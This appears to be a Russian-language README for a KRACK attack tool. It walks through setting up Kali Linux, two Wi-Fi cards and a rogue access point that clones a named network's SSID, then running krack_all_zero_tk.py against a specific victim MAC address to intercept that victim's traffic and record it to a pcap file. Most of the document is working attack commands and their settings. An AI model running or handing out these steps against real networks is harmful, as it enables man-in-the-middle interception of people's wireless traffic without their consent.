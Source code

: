 ## Подготовка
* Тестер:
  * Ноутбук
  * Kali Linux 2018.4
  * 2 WIFI сетевые карты
  * 1 Ethernet сетевая карта или 4G - модем, или расшара интернета через мобильный интернет USB - Teathering
  
* Жертва (которая подключается к роутеру):
  * Ноутбук или Смартфон или Планшет с WIFI

* Роутер (точка доступа):

## Предустановка
Установить пакеты Kali Linux:
```
$sudo apt update
$sudo apt install dnsmasq libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
```
dnsmasq - обязательно установить, иначе интернет не будет работать у жертвы.

Устанавливаем следующие Python-пакеты
```
$pip install --user mitm_channel_based
```
Потом отключить аппаратное шифрование на WIFI у тестера **disable hardware encryption** через скрипт ./disable-hwcrypto.sh. Перезагрузиться (обязательно).
 
 ## Использование
 Запустить скрипт
 
 ```
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" -t 00:21:5d:ea:fe:be
 ```
 * `wlan1`: интерфейс, на котором слушаем и внедряем пакеты в реальный канал роутера
 * `wlan0`: интерфейс с поддельной базовой станцией
 * `usb0`: интерфейс с интернетом, может быть что угодно, Ethernet например
 * `"Familia Couto"`: SSID станции в роутеры, которую подделываем
 * `-t 00:21:5d:ea:fe:be`: MAC адрес жертвы
 * Другие настройки можно узнать так `./krackattack/krack_all_zero_tk.py -h`!
 
 **Внимание!**
 * Отключить Wi-Fi в диспетчере перед запуском скрипта!
 * После отключения Wi-Fi, запускаем команду: `$rfkill unblock wifi`!
 
 **Вывод**
 
 * `dnsmasq.conf`: конфигурация DHCP и DNS
 * `dnsmasq_log`: вывод dnsmasq
 * `hostapd_rogue.conf`: файл конфигурации поддельной базовой станции
 * `hostapd_rogue.log`: вывод поддельной базовой станции
 * `rogue_ap_capture.pcap`: файл с записанными пакетами, котороые прослушиваются на интерфейсе поддельной базовой станции.
